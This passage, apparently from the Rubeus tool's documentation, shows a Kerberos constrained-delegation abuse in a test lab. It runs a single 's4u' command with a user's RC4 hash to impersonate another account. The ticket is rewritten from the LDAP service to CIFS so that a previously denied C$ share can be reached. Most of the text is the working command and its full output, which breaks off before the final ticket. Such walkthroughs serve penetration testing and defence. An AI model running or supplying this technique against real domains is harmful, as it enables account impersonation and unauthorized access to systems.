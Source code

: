 Let's expand on the previous example, forging access to the filesystem on **primary.testlab.local** by abusing its constrained delegation configuration and the alternate service substitution. Let's package it all into one step as well, performing a TGT request, S4U2self process, S4U2proxy execution, and injection of the final ticket:

    C:\Rubeus>dir \\primary.testlab.local\C$
    Access is denied.

    C:\Rubeus>Rubeus.exe s4u /user:patsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:dfm.a /msdsspn:"ldap/PRIMARY.testlab.local" /altservice:cifs /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIE+jCCBPagAwIBBaEDAgEWoo..(snip)..


    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
    [*] base64(ticket.kirbi):

        doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..

    [*] Impersonating user 'dfm.a' to target SPN 'ldap/PRIMARY.testlab.local'
    [*]   Final ticket will be for the alternate service 'cifs'
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2641 bytes
    [*] Received 1829 bytes
    [+] S4U2proxy success!
    [*] Substituting alternative service name 'cifs'
    [*] base64(ticket.kirbi) for SPN 'cifs/PRIMARY.testlab.local':
